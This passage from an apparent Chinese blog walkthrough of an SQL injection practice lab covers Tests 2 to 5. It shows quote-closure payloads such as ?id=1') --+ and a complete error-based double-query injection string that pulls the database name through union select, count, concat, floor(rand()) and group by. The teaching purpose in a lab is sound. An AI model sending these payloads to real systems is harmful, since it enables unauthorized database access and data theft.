 ![在这里插入图片描述](https://img-blog.csdnimg.cn/b5ab677236fe4a588135610889cf7ea1.png?x-os-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

5.爆字段名

![在这里插入图片描述](https://img-blog.csdnimg.cn/2359c27b446c48378616ee71ee39e952.png?x-os-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

6.获取数据

![在这里插入图片描述](https://img-blog.csdnimg.cn/0e1b8dc59fb2405cb921eb9675871aa4.png?x-os-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

## Test 2

闭合条件不一样，应改为?id=1  其余和less1一样。

## Test 3

闭合改变了，1被'1'')包围，所以采用?id=1') --+ 将其闭合，其余和test1，2相同

![在这里插入图片描述](https://img-blog.csdnimg.cn/6efb8e7cfd87431fb2577499acdee36b.png?x-os-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

## Test 4

发现使用双引号"时报错，则确定了闭合条件,使用?id=1" --+将其闭合，其余步骤和前三题一样

![在这里插入图片描述](https://img-blog.csdnimg.cn/4f76f0719e3b438898d64523acc9575a.png?x-os-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

## Test 5（双重查询注入）

### 1、双重就是select语句里再套一个select语句

### 2、理解四种函数

```
Concat(),Rand(), Floor(), Count(),Group by 
```

1、首先查找闭合点

![在这里插入图片描述](https://img-blog.csdnimg.cn/c527974e05694f689cbc95c982cfad1d.png?x-os-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

能判断出 '1''是被这样包裹的，所以我们只需加一个’把他闭合，再把后面的注释掉

2、查库：

```
?id=-1' union select 1,count(*),concat( (select database()),floor(rand()*2)) as a from information_schema.tables group by a --+
```

四种函数的嵌套运用，有些是死格式，自行理解一下

![在这里插入图片描述](https://img-blog.csdnimg.cn/c35114ec67cb41baa7a8236c08712ed2.png?x-os-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)
